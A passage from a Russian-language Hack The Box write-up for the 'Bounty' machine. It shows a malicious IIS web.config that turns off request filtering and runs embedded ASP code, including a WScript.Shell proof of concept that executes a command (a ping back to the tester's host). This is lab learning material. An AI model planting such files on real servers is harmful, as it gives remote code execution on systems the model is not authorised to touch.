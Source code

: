 ```xml
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

Выполнение простой математики: в случае успеха мы должны лицезреть результат операции сложения `1 + 2`.

Загрузим web.config на сервер и инициируем выполнение кода, перейдя по `http://10.10.10.93/uploadedfiles/web.config`:

[![bounty-port80-browser-5.png]({{ "/img/htb/boxes/bounty/bounty-port80-browser-5.png" | relative_url }})]({{ "/img/htb/boxes/bounty/bounty-port80-browser-5.png" | relative_url }})

Есть контакт, переходим к следующей фазе.

### web.config для RCE [Proof-of-Concept]
Модифицируем код для проверки возможности выполнения команд. Попытаемся получить пинг на свою машину:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<% Response.write("-"&"->") %>

<%
Set objShell = CreateObject("WScript.Shell")
objShell.Exec("cmd /c ping 10.10.14.14")
%>

<% Response.write("<!-"&"-") %>
-->
```